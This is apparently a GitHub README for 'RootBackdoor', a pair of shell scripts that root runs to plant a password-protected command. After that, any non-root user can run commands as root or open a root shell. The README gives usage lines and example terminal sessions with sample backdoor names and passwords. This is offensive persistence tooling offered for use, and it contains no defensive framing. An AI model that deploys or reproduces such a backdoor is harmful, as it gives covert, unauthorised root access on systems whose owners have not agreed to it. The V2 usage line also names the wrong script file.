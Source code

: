 # RootBackdoor

Usage:
```
# chmod +x backdoor.sh
# ./backdoor.sh <backdoor> <password>
```

As non-root user run:
```
$ <backdoor> <password> <command>
```

Example:
```
root@machine:~# ./backdoor.sh root bl33dz
root@machine:~# su user
user@machine:~$ whoami
user
user@machine:~$ root bl33dz whoami
root
```


# RootBackdoor V2

Usage:
```
# chmod +x backdoorV2.sh
# ./backdoor.sh <backdoor> <password> <shell>
```

As non-root user run:
```
$ <backdoor>
```
It will ask you password

Example:
```
root@machine:~# ./backdoorV2.sh ruut bleedz33 /bin/bash
root@machine:~# su user
user@machine:~$ whoami
user
user@machine:~$ ruut
PASSWORD:
root@machine:~# whoami
root
```

